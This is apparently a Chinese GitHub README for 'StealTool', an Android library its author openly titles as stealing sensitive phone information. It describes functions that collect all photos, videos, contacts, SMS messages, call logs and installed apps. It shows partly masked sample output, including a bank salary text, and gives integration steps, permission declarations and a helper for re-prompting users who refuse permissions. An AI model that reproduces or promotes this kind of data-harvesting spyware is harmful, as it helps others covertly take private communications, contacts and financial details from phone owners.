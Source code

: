 # 盗取手机敏感信息，Android 6.0之上兼容

### 项目介绍
- 盗取信息包含：
    - 手机中所有照片
    - 手机中所有视频
    - 手机中所有通讯录
    - 手机中所有短信
    - 手机中所有通话记录
    - 手机中所有安装应用
- 兼容Android 6.0及之上版本
- 动态权限申请工具开放

### 效果展示

##### 1.照片信息
```java
    MaterialBean{mLogo='/storage/emulated/0/Pictures/Screenshots/Screenshot_2017-07-23-01-38-14.png', title='Screenshot_2017-07-23-01-38-14.png', time='2017-07-23 01:38', filePath='/storage/emulated/0/Pictures/Screenshots/Screenshot_2017-07-23-01-38-14.png', isChecked=false, fileSize=1025172, fileId=89cfda75f36e44e3a46235937a8c3000, uploadedSize=0, fileType=6, uploaded=false, progress=0, timeStamps='1536657493366', flag='0'}

```
##### 2.视频信息
```java
      MaterialBean{mLogo='/storage/emulated/0/DCIM/Camera/视频/VID_20170917_130313.mp4', title='VID_20170917_130313.mp4', time='视频时间-00:00:11', filePath='/storage/emulated/0/DCIM/Camera/视频/VID_20170917_130313.mp4', isChecked=false, fileSize=29080924, fileId=7be02431aeff4d19b2612b686543ce10, uploadedSize=0, fileType=2, uploaded=false, progress=0, timeStamps='1536657639141', flag='0'}

```

##### 3.通讯录
```java
    PhoneUserInfo{id='daaf163b02d44e6dabf59cfb9a8c0958', name='*鹏', number='151**054191'}
    PhoneUserInfo{id='15aebbd2e6134e59992192b095f0e67c', name='侯*利', number='1830***2828'}
    PhoneUserInfo{id='28bcabbb14e24e3da4b5bd79c10dfa46', name='*八', number='187337**438'}
    PhoneUserInfo{id='3d637ea6910f4b71a105ae06b7ba3645', name='申通小哥', number='18513**8127'}

```

##### 4.短信
```java
    [ 10659805436945326, 0, 【luckin coffee】小蓝杯，北马爱~送你一张5折券（全场饮品通用）下载app立享http://t.cn/RlQ2ad3 回TD退订, 2018-09-11 01:42:27, 接收 ]

    [ 95555, 0, 您账户8693于09月11日11:42入账工资，人民币22267.30。[招商银行], 2018-09-11 11:46:28, 接收 ]

```

##### 5.通话记录
```java
     CallInfo{number='13141**2862', date=1527322406732, type=2}
    CallInfo{number='1891**85043', date=1527325280548, type=1}
    CallInfo{number='1360110**83', date=1527335837700, type=2}

```

##### 6.安裝App
```java
    AppInfo{appName='CSDN', appIcon='android.graphics.drawable.BitmapDrawable@eb62aed'}
    AppInfo{appName='皮皮虾', appIcon='android.graphics.drawable.BitmapDrawable@4f2ad22'}
    AppInfo{appName='Chrome', appIcon='android.graphics.drawable.BitmapDrawable@66043b3'}
    AppInfo{appName='UC浏览器', appIcon='android.graphics.drawable.BitmapDrawable@b0f8d70'}
    AppInfo{appName='抖音短视频', appIcon='android.graphics.drawable.BitmapDrawable@75788e9'}

```

### 最简单使用方式

##### 1. Add it in your root build.gradle at the end of repositories:

```java
allprojects {
		repositories {
			...
			maven { url 'https://jitpack.io' }
		}
	}
```
##### 2. Add the dependency

```java
dependencies {
	        implementation 'com.github.pengMaster:StealTool:1.0.0'
	}
```
##### 3. Add use to activity

```java
//获取图片
StealUtils.getAllLocalPhotos(this@MainActivity)

//获取视频
StealUtils.getAllLocalVideos(this@MainActivity)

//获取联系人
StealUtils.getAllContactInfo(this@MainActivity)

//获取短信
StealUtils.getSmsInPhone(this@MainActivity)

//获取通话记录
StealUtils.getCallInfos(this@MainActivity)

//获取安装所有App
StealUtils.getInstallApp(packageManager)


java (this) = kotlin (this@MainActivity)
java (getPackageManager()) = kotlin (packageManager)

```

##### 4. add permission to your menifest

```java
    <!--读-->
    <uses-permission android:name="android.permission.READ_EXTERNAL_STORAGE" />
    <!--联网-->
    <uses-permission android:name="android.permission.INTERNET" />
    <!--联系人-->
    <uses-permission android:name="android.permission.READ_CONTACTS" />
    <uses-permission android:name="android.permission.READ_PHONE_STATE" />
    <!--短信-->
    <uses-permission android:name="android.permission.READ_SMS" />
    <!--通话记录-->
    <uses-permission android:name="android.permission.READ_CALL_LOG" />
```

### 介绍一下很好用的Android6.0动态权限申请工具


####  申请一个权限：
```
PERMISSION_CAMERA = 申请权限（例如：Manifest.permission.READ_SMS）
REQUEST_CODE_CAMERA = 请求返回码 重写onRequestPermissionsResult()时用
    PermissionUtils.checkAndRequestPermission(mContext, PERMISSION_CAMERA, REQUEST_CODE_CAMERA,
                new PermissionUtils.PermissionRequestSuccessCallBack() {
            @Override
            public void onHasPermission() {
                // 权限已被授予

            }
        });
```
#### 然后在onRequestPermissionsResult中：

```
if(PermissionUtils.isPermissionRequestSuccess(grantResults))
                {
                    // 权限申请成功

                }
```

#### 什么？要同时申请多个权限？
```
    PermissionUtils.checkAndRequestMorePermissions(mContext, PERMISSIONS, REQUEST_CODE_PERMISSIONS,
                new PermissionUtils.PermissionRequestSuccessCallBack() {
            @Override
            public void onHasPermission() {
                // 权限已被授予

            }
        });
```
#### 当然上面这些都不是申请权限的正确姿势，理想的姿势应该是：
- 第一次申请权限：按照正常流程走；
- 如果用户第一次拒绝了权限申请，第二次申请时应向用户解释权限用途；
- 如果用户勾选了“不再询问”选项，应引导用户去设置页手动开启权限。

于是，引申出了复杂版的权限申请方法：
## 自定义权限申请：
```
PERMISSION_CAMERA = 申请权限（例如：Manifest.permission.READ_SMS）
PermissionUtils.checkPermission(mContext, PERMISSION_CAMERA,
                new PermissionUtils.PermissionCheckCallBack() {
            @Override
            public void onHasPermission() {
                // 已授予权限

            }

            @Override
            public void onUserHasAlreadyTurnedDown(String... permission) {
                // 上一次申请权限被拒绝，可用于向用户说明权限原因，然后调用权限申请方法。
            }

            @Override
            public void onUserHasAlreadyTurnedDownAndDontAsk(String... permission) {
                // 第一次申请权限或被禁止申请权限，建议直接调用申请权限方法。
            }
        });
```
#### 然后在onRequestPermissionsResult中：

```
PermissionUtils.onRequestPermissionResult(mContext, PERMISSION_CAMERA, grantResults, new PermissionUtils.PermissionCheckCallBack() {
                    @Override
                    public void onHasPermission() {

                    }

                    @Override
                    public void onUserHasAlreadyTurnedDown(String... permission) {
                        Toast.makeText(mContext, "我们需要"+Arrays.toString(permission)+"权限", Toast.LENGTH_SHORT).show();
                    }

                    @Override
                    public void onUserHasAlreadyTurnedDownAndDontAsk(String... permission) {
                        Toast.makeText(mContext, "我们需要"+Arrays.toString(permission)+"权限", Toast.LENGTH_SHORT).show();
                        // 显示前往设置页的dialog
                        );
                    }
                });
```
#### 参与贡献

1. Fork 本项目
2. 新建 Feat_xxx 分支
3. 提交代码
4. 新建 Pull Request
5. 权限工具参考：https://github.com/ifadai/PermissionUtils


#### github地址

 - 项目地址：https://github.com/pengMaster/StealTool

